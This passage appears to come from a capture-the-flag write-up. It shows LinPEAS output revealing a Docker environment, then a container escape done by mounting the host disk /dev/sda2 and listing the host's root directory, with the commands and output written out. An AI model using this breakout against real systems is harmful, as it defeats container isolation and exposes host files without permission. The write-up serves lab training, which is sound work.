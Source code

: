 That worked, but there is no root flag. I was confused but then remembered that I am in a docker image (which LinPEAS found out):

```bash
╔══════════╣ Searching Signature verification failed in dmseg                                             
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#dmesg-signature-verification-failed         
dmesg Not Found                                      

╔══════════╣ Protections                             
═╣ AppArmor enabled? .............. AppArmor Not Found                                                    
═╣ grsecurity present? ............ grsecurity Not Found                                                  
═╣ PaX bins present? .............. PaX Not Found    
═╣ Execshield enabled? ............ Execshield Not Found                                                  
═╣ SELinux enabled? ............... sestatus Not Found                                                    
═╣ Is ASLR enabled? ............... Yes              
═╣ Printer? ....................... No               
═╣ Is this a virtual machine? ..... Yes (docker)
```

So I now know what I have to do: escape the docker container.

# Escaping The Docker Container

---

There are many ways to escape a docker container. A lot of them are covered on hacktricks.xyz. I tried a few, but this one worked for me:

[Docker Breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root)

Here is how you do it. First, you check which file systems there are:

```bash
Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Then, mount the correct file system (in my case, it's the 18Gb Linux File System on sda2):

```bash
root@gitlab:/# mount /dev/sda2 /mnt/filesystem                                                                                                                                                                      
root@gitlab:/# cd /sda
bash: cd: /sda: No such file or directory
root@gitlab:/# cd /sda2
bash: cd: /sda2: No such file or directory
root@gitlab:/# cd /mnt/filesystem/
root@gitlab:/mnt/filesystem# ls
bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
root@gitlab:/mnt/filesystem# cd root
root@gitlab:/mnt/filesystem/root# ls
docker-gitlab  ready-channel  root.txt  snap
```
